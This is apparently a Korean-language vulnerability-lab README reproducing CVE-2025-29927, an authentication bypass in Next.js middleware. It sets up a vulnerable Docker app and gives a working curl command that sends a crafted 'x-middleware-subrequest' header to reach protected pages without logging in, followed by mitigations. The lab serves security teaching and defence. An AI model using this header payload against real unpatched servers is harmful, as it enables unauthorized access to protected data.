



# Next.js 미들웨어 인증 우회 (CVE-2025-29927)

Next.js는 서버 사이드 렌더링(SSR), 정적 사이트 생성(SSG), 통합 라우팅 시스템 등 다양한 기능을 제공하는 React 기반 웹 애플리케이션 프레임워크입니다.  
Next.js를 인증 및 인가 미들웨어와 함께 구성할 때, 14.2.25 및 15.2.3 이전 버전에서는 인증 우회 취약점이 존재합니다.

이 취약점을 통해 공격자는 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 리소스 및 민감한 데이터에 비인가 접근을 시도할 수 있습니다.

---

## 참고 자료

- [GitHub 보안 권고문](https://github.com/advisories/GHSA-f82v-jwr5-mffw)
- [Zero Web Security 연구 문서](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [NVD CVE-2025-29927 상세 정보](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)

---

## 환경 구성

다음 명령어를 실행하여 Next.js 15.2.2 버전 기반의 취약한 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

애플리케이션이 실행된 후, 브라우저에서 다음 주소로 접속합니다:

```
http://your-ip:3000
```

초기 접속 시 로그인 페이지로 리다이렉트됩니다.  
기본 로그인 정보는 다음과 같습니다:

```
ID: admin
PW: password
```

로그인 후 대시보드에 접근할 수 있습니다.



---

## 취약점 재현

### 정상 접근 시도

로그인 없이 대시보드에 접근을 시도하면 로그인 페이지로 리다이렉트됩니다.

```bash
curl -i http://your-ip:3000
```



---

### 인증 우회 공격

취약점을 악용하기 위해, 요청 헤더에 `x-middleware-subrequest`를 추가합니다.  
헤더 값은 다음과 같이 설정합니다:

```
middleware:middleware:middleware:middleware
```

명령어 예시는 다음과 같습니다:

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware" http://your-ip:3000
```



정상적으로 인증 우회가 이루어지며, 로그인을 하지 않고도 보호된 리소스에 접근이 가능합니다.

---

## 결론

- 문제 원인: Next.js 미들웨어가 내부 서브 요청(`x-middleware-subrequest`)을 제대로 검증하지 않음.
- 영향: 인증 절차를 거치지 않고 민감한 리소스에 접근할 수 있음.
- 대응 방안:
  - Next.js 버전을 15.2.3 이상으로 업데이트
  - 미들웨어 요청 시 추가적인 세션 및 사용자 인증 검증 로직 추가
  - 신뢰할 수 없는 클라이언트로부터의 헤더 조작을 차단

---

## GitHub 레포지토리 링크

- [https://github.com/JuniorJANG/vulhub](https://github.com/JuniorJANG/vulhub)
